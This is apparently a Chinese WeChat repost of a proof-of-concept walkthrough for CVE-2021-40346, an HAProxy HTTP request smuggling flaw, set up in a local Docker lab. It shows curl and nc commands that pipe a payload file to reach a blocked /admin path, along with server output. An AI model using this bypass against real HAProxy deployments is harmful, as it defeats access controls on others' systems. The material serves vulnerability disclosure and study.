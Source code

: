 #  CVE-2021-40346（HAProxy HTTP 走私）屁噢C

knqyf263  [ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

__

收录于话题

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210911114224.png)

  

docker启动

  

  *   *   * 

    
    
    $ docker build -t cve-2021-40346 .$ docker run --name poc -p 8000:80 -d --rm -it cve-2021-403464941e9f23508b497e4cbe334a75e7cdb84c83478522ed85f48db3477f97a6fb4

  

  

测试：  

        确认`/admin`被拒绝。  
  

  *   *   *   *   *   * 

    
    
    $ curl http://localhost:8000hello$ curl http://localhost:8000/admin<html><body><h1>403 Forbidden</h1>Request forbidden by administrative rules.</body></html>

  

        你不会`/admin`在日志中看到。这意味着请求没有到达后端服务器，因为 HAProxy 拒绝了它。

  

  *   *   * 

    
    
    $ docker logs pocserver start at port 8000/

  

  

然后，您可以确保它可以被 payload.txt 绕过。

  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    $ cat payload.txt | nc localhost 8000HTTP/1.1 200 OKcontent-type: text/plaindate: Wed, 08 Sep 2021 22:31:10 GMTkeep-alive: timeout=5transfer-encoding: chunked  
    6hello  
    0

  

  

你会`/admin`在日志中找到。

  

  *   *   *   *   * 

    
    
    $ docker logs pocserver start at port 8000///admin

  

项目地址：  

  

aHR0cHM6Ly9naXRodWIuY29tL2tucXlmMjYzL0NWRS0yMDIxLTQwMzQ2

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

CVE-2021-40346（HAProxy HTTP 走私）屁噢C

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

